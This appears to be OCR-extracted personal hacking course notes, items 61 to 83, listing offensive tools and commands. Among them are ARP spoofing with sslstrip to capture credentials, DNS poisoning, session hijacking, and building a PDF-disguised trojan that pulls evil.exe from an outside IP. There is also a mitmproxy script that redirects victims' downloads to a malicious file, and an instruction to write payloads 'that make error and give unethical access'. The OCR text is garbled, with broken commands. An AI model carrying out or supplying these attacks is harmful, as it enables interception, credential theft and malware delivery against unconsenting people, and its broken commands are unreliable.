 61. netdiscover tool like nmap to gather info ad it is preinstalled in kali > netdiscover -r 192.168.56.101/14 > netdiscover -l ip.txt
62. MITM : sudo sysctl -w net.ipv4.ip_forward=1 > Ettercap > set targets > tcpdump -i wlan0 -n port 80 and host 198.168.56.111 >> mitmf Tool/software || Cain & Abel Tool > Password recovery tool leveraging network sniffing, brute-force attacks, and more for security professionals > | Ettercap Used | > #Enable IP Forword on the computer > echo 1 > /proc/sys/net/ipv4/ip_forward > iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080 > arpspoof -i eth0 -t <target IP> -r <gatewway IP> > #Keep the previous terminal running and open a #new terminal sslstrip -1 8080 I > #Credentai will be saved in sslstip.log nano ssistip.log
63. Sniffing : Wireshark Used , XArp Tool also > arpspoof -t 198.2.0.1 192.168.56.101
64. Network Hacking Tools : Wireshark, Nikto, Nessus remote security scanner, Zenmap , remote security scanner
65. yarsinia Tool use for DNS Poisining > DNS Poisoning . || DNS POsining for setting up Proxy Server > video 163
66. Proxy Setup in browser and Buy From Third Party also and use to hide your self.
67. DNS Poisining : Usinf Ettercap and SET Toolkit to perfrom this attack .
68. MITM Proxy : mitmweb > go on browser by clicking link > in kali > install certificate and set proxy setting in browser > in commd shell do this > mitmweb --allow-hosts '\*.google.com' > other install using https://github.com/mitmproxy/mitmproxy.git > and run and explain > mitmproxy --version > mitmproxy > curl --proxy http://localhost:8080 http://google.com > press enter and also left and right for more details .
69. Trojan : install trojan from https://github.com/z00z/TrojanFactory.git and https://github.com/threatland/TL-TROJAN.git and use it to hack another devices. > python trojan_factory.py --help > python trojan_factory.py -f https://pubs.usgs.gov/dds/dds-057/ReadMe.pdf -e http:982.166.23.19/evil.exe -o var/www/html/ReadMe.exe -i root/downlode/pdf.ico -z > ettercap -Tq -M arp:remote -i wlan0 -S /10.45.67.86// /10.45.67.86/ > .mitmdump -s root/basic.py --transparent > iptables -t nat -A PREROUTING -p tcp --destination -port 10 -j REDIRECT --to-port 8080 > from mitmproxy import http > def request(flow: http.HTTPFlow) -> None: > if flow.request.host != "10.20.215.8" and flow.request.pretty_url.endswith("."): > print("[+] Got interesting flow") > flow.response = http.HTTPResponse.make(301,b"",{"Location": "http://10.20.215.8/file.exe"} ) > || https://github.com/AlessandroZ/LaZagne.git this is credential recovery project if usfull . >> Advanced Man in the Middle Attack can be done using BeeF Tool (imp).
70. SSL Srips and Advanced Uses of Etttercap : use Ettercap for this >> echo 1> /proc/sys/net/ipv4/ip forward > iptables iptables -t nat -A PREROUTING tcp-destination-port 80 -j REDIRECT --to-port 8080 > arpspoof -1 ethe 192.168.1.105 192.168.1.102 > arpspoof ethe 192.168.1.105 192.168.1.102 > ssistrip- 8080 .
71. Cain and Abel Demonstration
72. Sidejaking and Sniffing Demonstaration : open Ettercap-G and set targets > hamster-sidejack run commd > set proxy in browser > next commd ferret-sidejack > ferret-sidejack -i eth0 > Sniffing Example : sysctl -w net.ipv4.ip_forword=1 > ettercap-G > tcpdump -i eth0 -n port 80 and host 192.168.56.101
73. Basic of Session Hijacking : use tools such as Fiddler web Debugger > https://github.com/elmah/Elmah.git by using this tool you can get much more info
74. Automated Session hijacking : Session id and much more hijacking was possible using burpsuit > Acunetix web Vulneribility Scanner toll used for web vuln scan
75. Session hijacking : cookie editor extention doenlode and get cookie .
76. Static and Binary code Analysis tool : https://github.com/NationalSecurityAgency/ghidra.git use it priperly and it is developed by NSA
77. • Exploit Websites : > https://www.exploit-db.com > http://www.rapid7.com/db/ > http://0day.today/ > https://cxsecurity.com/exploit/
78. Debugger : tools > 1) Immunity Debugger ||2) immunity Debugger with sika boom also avalable.
79. Python-based interactive packet manipulation program & library tool : https://github.com/secdev/scapy.git
80. EIP & ESP Bugs find but writing script in python .
81. write all the payloads and scripts that make error and give unethical access .
82. To convert your machine to FTP Server > Ability FTP Server > it incorporates many advanced features with an easy to use interface. This flexible FTP server usually only takes a couple of minutes to configure. Offering power control over accounts, the software comes with advanced monitoring to enable you to view and study activity. The server includes a Remote Admin facility which allows total control of the server from any location. Other features include 256-bit SSL encryption, anti-hammering and much more.
83. Prebuild Hashing in windows : Certutil -hashfile (Path_to_file) [HashAlgo] > Using OpenSSL >> Encrypt a File : openssl enc -aes-256-cbc -salt -in file.txt -out file.txt.enc -k yourpassword > Decrypt a File : openssl enc -d -aes-256-cbc -in file.txt.enc -out file.txt -k yourpassword.